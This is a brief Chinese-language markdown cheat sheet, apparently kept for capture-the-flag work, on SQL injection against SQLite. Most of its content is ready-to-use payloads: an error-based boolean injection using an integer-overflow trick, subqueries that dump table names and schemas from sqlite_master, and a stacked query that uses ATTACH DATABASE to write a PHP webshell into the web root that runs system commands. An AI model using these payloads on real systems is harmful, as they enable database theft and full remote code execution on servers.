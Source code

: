 - # sqlite
	- [参考](https://www.sjkjc.com/sqlite-ref/string-functions/)
	- ```
	  a'||1=2||abs(case(2)when(1)then(1)else(0x8000000000000000)end)||'
	  ```
	- sqlite 中没有`ascii`，用`unicode`代替
	- ```
	  (select group_concat(name) from sqlite_master where type = 'table') # 表名
	  
	  (SELECT sql FROM sqlite_master WHERE tbl_name = 'table_name' AND type = 'table') # 创建表使用的sql
	  ```
	- 写webshell
		- ```
		  1; ATTACH DATABASE '/var/www/html/data/qazxsw.php' as hackz;CREATE TABLE hackz.pwn (dataz text);INSERT INTO hackz.pwn (dataz) VALUES ('<?php echo system(\"/readflag\"); ?>'); -- xyz
		  ```